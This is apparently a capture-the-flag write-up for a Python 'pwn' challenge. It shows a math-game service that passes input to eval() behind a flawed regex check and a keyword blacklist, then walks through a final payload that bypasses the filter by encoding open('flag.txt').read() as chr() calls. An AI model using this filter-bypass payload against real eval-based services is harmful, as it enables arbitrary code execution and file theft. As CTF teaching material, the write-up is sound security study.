





# [PWN] Python Challenge
## Description
Pwn too hard, python too easy, sounds like it'll make a good challenge

Python vibe-coding ftw

Author: Elma

nc challs.nusgreyhats.org 34508

## The Program
When we run the program, we are greeted with the following output:



We are given an opponent, and we are required to supply a mathematical expression that yields a number greater than or equal to the opponent's health, or the opponent will deal damage to our character. We can literally supply the opponent's health as the input and still succeed.

Upon defeating all the opponents, we get a trophy.

## Code Analysis
Let us take a look at the following code segments:

```python
expr = input("Fire math expression (or 'quit'): ")

if expr.lower() == 'quit':
    return

# Sanitize and evaluate
clean_expr = sanitize_input(expr)
if clean_expr is None:
    print("❌ Invalid expression! Only use numbers and +, -, *, /, ()")
    continue

try:
    # Use eval on sanitized input
    damage = eval(clean_expr)

    if not isinstance(damage, (int, float)) or damage < 0:
        print("❌ Result must be a positive number!")
        continue
```

Our user input is passed into a `sanitize_input()` function, and if it passes sanitisation, it is executed within an `eval()` function. The `eval()` function in Python allows us to evaluate Python expressions, hence we have arbitrary code execution.

```python
def sanitize_input(expr):
    """Simple sanitization for math expressions"""
    # Remove whitespace
    expr = expr.strip().replace(" ", "")

    # no alphabets allowed
    disallowed = re.match(r'^[a-zA-Z]+$', expr)
    if disallowed:
        return None

    # Check for dangerous patterns
    dangerous = ['__', 'import', 'exec', 'open']
    if any(bad in expr.lower() for bad in dangerous):
        return None

    return expr
```

The `sanitize_input()` function removes whitespace, and attempts to block alphabets. However, `re.match()` is used here, which only checks the beginning of a string:



Notice that even a mere bracket `(` can defeat the pattern matching.

The `sanitize_input()` function also includes a list of blacklisted words:
- `__`
- `import`
- `exec`
- `open`

## Exploitation
I did this challenge with the assumption that there is a `flag.txt` file in the same directory where the program is running from. Knowing that our user input is passed into the `eval()` function, I knew that I was going to have to somehow invoke `open('flag.txt').read()`. However, we have just seen that `open` is a blacklisted word.

In order to bypass this blacklist, we can represent each character with their unicode equivalent. For example, `chr(65)` gives us the character `A`. All we need to do now is to convert each character in `open('flag.txt').read()` into the `chr(int)` form, and concatenate all of them together. This will give us 

```
chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)
```

Now, we can just stick the entire thing into another `eval()` to execute `open('flag.txt').read()`.



However, we need to remember the constraints of our input. Since our input string begins with `eval`, which contains alphabets, we should wrap the entire thing into parentheses:

```
(eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)))
```

Doing so will allow us to bypass the Regular Expression validation, but we will fail another condition where our evaluated expression has to be a number:



To get around this, we can wrap the entire payload into `(print(<PAYLOAD>), 1)` to form our final payload:

```
(print(eval(chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))),1)
```

The final `,1` makes the whole expression return 1 to satisfy the program's damage calculation requirement.



**Flag:**

```
grey{Darkness blacker than black and darker than dark, I beseech thee, combine with my deep crimson. The time of awakening cometh. Justice, fallen upon the infallible boundary, appear now as an intangible distortions! I desire for my torrent of power a destructive force: a destructive force without equal! Return all creation to cinders,and come frome the abyss! Explosion!}
```


